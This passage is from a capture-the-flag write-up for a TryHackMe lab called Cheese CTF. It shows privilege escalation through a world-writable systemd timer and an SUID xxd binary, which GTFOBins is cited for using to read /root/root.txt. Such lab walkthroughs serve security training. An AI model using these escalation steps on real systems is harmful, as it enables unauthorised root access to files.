 ```shell
comte@cheesectf:~$ ls -l /etc/systemd/system/exploit.*
-rw-r--r-- 1 root root 141 Mar 29  2024 /etc/systemd/system/exploit.service
-rwxrwxrwx 1 root root  87 Mar 29  2024 /etc/systemd/system/exploit.timer
```

```shell
comte@cheesectf:~$ systemctl cat exploit.timer
# /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=10 # We schedule to start the service after 10 seconds

[Install]
WantedBy=timers.target
```

Once that is done, we can check `/opt` and there is indeed the **xxd** binary owned by **root** with the **SUID bit** :

```shell
comte@cheesectf:~$ ls -l /opt
total 20
-rwsr-sr-x 1 root root 18712 Jan  3 20:02 xxd
```

Using [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/), we can use that **SUID bit** to read any file, so we choose to read `/root/root.txt` :

![10](/assets/img/tryhackme/ctf/cheesectf/10.png)